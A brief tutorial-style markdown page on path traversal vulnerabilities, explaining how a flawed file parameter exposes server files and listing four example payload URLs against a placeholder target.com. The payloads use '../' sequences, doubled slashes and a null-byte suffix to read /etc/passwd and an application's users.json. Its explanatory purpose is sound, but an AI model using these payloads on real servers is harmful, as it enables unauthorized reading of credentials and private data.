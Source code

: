 # Path Traversal

Path traversal aka directory traversal is a web security vulnerability where the application with it's immoderation allows users to read the sensitive server resources such as `/etc/passwd` `/home/user/.ssh/public_id_rsa` via the URL path.

The impact is not just limited to the server native files, it might lead to retrieval of other sensitive data such as `/opt/application/users.json` or `/var/www/html/site/db.php` these folders and files contain even sensitive information about the application than of the server which is crucial to the business.

we can exploit this vulnerability by  parsing through directories via path

* `https://www.target.com/file?path=/etc/passwd` 
* `https://www.target.com/file?path=/images/img.svg/../../../../../etc/passwd`
* `https://www.target.com/file?path=/images/img.svg//..//..//..//..//..//..//etc//passwd
* `https://www.target.com/file?path=/opt/application/users.json%00